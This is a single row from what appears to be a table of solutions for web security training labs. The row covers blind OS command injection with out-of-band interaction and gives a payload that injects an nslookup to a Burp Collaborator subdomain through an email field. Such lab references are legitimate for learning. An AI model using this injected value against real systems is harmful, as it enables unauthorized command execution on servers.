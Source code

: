 |83    |Blind OS command injection with out-of-band interaction                                                                  |email=x&#124;&#124;nslookup+x.BURP-COLLABORATOR-SUBDOMAIN&#124;&#124;                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |Simply testing for a DNS lookup                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |OS Command Injection, Practitioner          |